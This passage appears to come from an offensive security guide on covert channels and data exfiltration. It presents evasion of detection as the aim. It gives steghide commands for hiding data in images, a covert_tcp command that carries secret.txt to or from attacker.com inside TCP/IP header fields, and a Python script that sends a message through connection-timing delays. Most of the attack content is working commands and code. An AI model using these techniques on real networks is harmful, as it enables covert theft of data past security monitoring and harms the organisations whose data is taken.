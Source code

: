 ```bash
# - Redundancy ensures continuous access
# - Automated monitoring reduces manual overhead
# - Proper persistence survives system reboots
# - Load balancing improves performance and reliability
```

## Covert Channels and Data Exfiltration

### **Steganographic Tunneling**

**What steganographic tunneling involves:** Hiding communication channels within legitimate-looking traffic or data to avoid detection.

**Why steganographic methods are valuable:** Extremely difficult to detect, appears as normal network traffic, and bypasses content-based detection systems.

```bash
# Image-based steganography for data hiding
# Hide data within image files
steghide embed -cf cover_image.jpg -ef secret_data.txt -p password
steghide extract -sf cover_image.jpg -p password

# Network steganography techniques
# Hide data in unused header fields
# TCP sequence numbers, IP ID fields, etc.

# Covert_TCP - Hide data in TCP/IP headers
./covert_tcp -dest target.com -source attacker.com -source_port 1234 -dest_port 80 -file secret.txt

# Time-based covert channels
# Encode data in packet timing intervals
# Send packets with specific time delays to represent binary data

cat > timing_channel.py << 'EOF'
#!/usr/bin/env python3
import time
import socket
import sys

def send_bit(bit, target, port):
    """Send bit encoded as timing delay"""
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        sock.connect((target, port))
        if bit == '1':
            time.sleep(0.5)  # 500ms delay for bit 1
        else:
            time.sleep(0.1)  # 100ms delay for bit 0
        sock.close()
    except:
        pass

def send_message(message, target, port):
    """Send message via timing channel"""
    binary = ''.join(format(ord(c), '08b') for c in message)
    for bit in binary:
        send_bit(bit, target, port)
        time.sleep(0.05)  # Small delay between bits

# Usage
send_message("SECRET", "target.com", 80)
EOF

# Protocol mimicry for covert channels
```